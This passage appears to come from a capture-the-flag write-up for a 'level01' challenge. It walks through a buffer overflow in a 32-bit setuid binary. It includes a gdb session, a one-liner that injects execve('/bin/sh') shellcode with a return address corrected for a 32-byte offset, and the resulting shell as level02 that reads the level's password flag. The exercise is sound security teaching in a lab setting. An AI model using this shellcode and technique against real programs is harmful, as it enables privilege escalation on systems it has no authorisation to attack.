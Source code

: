 
Our shellcode is successfuly setup, we can continue the execution to see if it worked
```
(gdb) c
Continuing.
process 1751 is executing new program: /bin/dash
warning: Selected architecture i386:x86-64 is not compatible with reported target architecture i386
Architecture of file not recognized.
```

Knowing this challenge takes place on a `x86-64` machine but that binary is `x86` we can ignore this error, the shell has been successfully executed:

`process 1751 is executing new program: /bin/dash`

Now we have to test it without `gdb` because `setuid bit` does not work if `gdb` is used on the binary

The addresses on a "real" situation will slightly differ from the ones from gdb which means we have an offset between `0xffffd6cc` and the "real" buffer address, we can craft a small bash or python script to test a bunch of addresses starting from `0xffffd6cc` up to `0xffffd6ff` and see one work

In this case I have determined that there is a 32 bytes offset between the gdb and non-gdb adresses, the new address is `0xffffd6ec`, let's try our input updated with the right address

We will also add `cat` to the command to prevent the program for returning right after executing `/bin/sh`

```bash
(echo dat_wil; python -c "print('\x31\xc0\x31\xc9\x31\xd2\x31\xff\x31\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'+53*'a'+'\xec\xd6\xff\xff')"; cat) | ./level01
```

We can try the `whoami` command to be sure we are connected in the shell as `level02` and then cat the `/home/users/level02/.pass` file to get the flag
```
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```